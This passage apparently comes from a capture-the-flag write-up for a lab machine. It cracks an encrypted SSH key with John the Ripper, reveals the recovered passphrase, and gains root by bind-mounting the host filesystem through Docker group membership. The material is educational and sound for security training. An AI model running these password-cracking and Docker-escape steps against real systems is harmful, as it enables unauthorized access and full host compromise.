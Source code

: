 The private key is AES-128 encrypted and has to be cracked before and for that I will use **JohnTheRipper**:
```markdown
sshng2john spanishdancer_key > spanishdancer_key_crack

john spanishdancer_key_crack --wordlist=/usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for the SSH key is:
> purple1

```markdown
chmod 600 spanishdancer_key

ssh -i spanishdancer_key spanishdancer@10.10.10.65
```

It works and we are logged in on the host machine as _spanishdancer_.

## Privilege Escalation

We know that Docker is installed, so it is a good idea to check if it is possible to abuse misconfigurations in that.
The user _spanishdancer_ is a member of the Docker group as `groups` shows, so running Docker commands works:
```markdown
docker container ls
```
```markdown
CONTAINER ID        IMAGE               COMMAND                  PORTS                          NAMES
c362989563fd        convert-template    "/bin/sh -c 'pytho..."   8080/tcp                       convert-live
7786500c3e80        bastion-template    "/usr/sbin/sshd -D"      0.0.0.0:1022->22/tcp           bastion-live
e980d631b20e        waf-template        "/bin/sh -c 'nginx..."   80/tcp, 0.0.0.0:443->443/tcp   waf-live
d77fe9521405        web-template        "/usr/sbin/apache2..."   80/tcp                         blog-test
(...)
```

Bind mounting the local volume of the host on one of the containers to get access to the file system:
```markdown
docker run -v /:/tmp/testname -it convert-template bash
```

In the path _/tmp/testname_ inside of the container, the local file system is mounted and it is possible to read the root flag and do everything that root can do!
